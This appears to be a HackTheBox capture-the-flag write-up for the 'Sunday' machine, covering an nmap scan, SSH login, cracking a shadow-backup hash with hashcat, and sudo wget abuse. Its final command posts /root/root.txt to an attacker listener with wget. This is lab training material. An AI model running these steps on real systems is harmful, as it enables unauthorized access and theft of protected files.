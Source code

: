 # Recon
We start with a nmap scan but we add ```--max-retries 0``` so it will speed up the process.
```
sudo nmap -sV -sC -O -p- -oN nmap.txt 10.10.10.76 -T 5 --max-retries 0
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Sunday/assets/2.png">

# Enumeration
We can do a simple check to see which users exist:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Sunday/assets/1.png">

# Initial Foothold
We can now login using SSH on port 22022 with password ```sunday```. We see that we can run ```sudo /root/troll```. But the binary doesn't seem to exist.

We find a shadow backup file which we can read. We extract the hash and bruteforce it with hashcat.
```
hashcat -a 0 -m 7400 hash /usr/share/wordlists/rockyou.txt -w 3 -O
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Sunday/assets/3.png">

We can now login as user sammy. Using ```sudo -l``` we find that it's possible to run ```sudo /usr/bin/wget```.

We can use it to paste the content of root.txt and collect it with netcat.
```
sudo /usr/bin/wget --post-file=/root/root.txt 10.10.14.7:4444
```


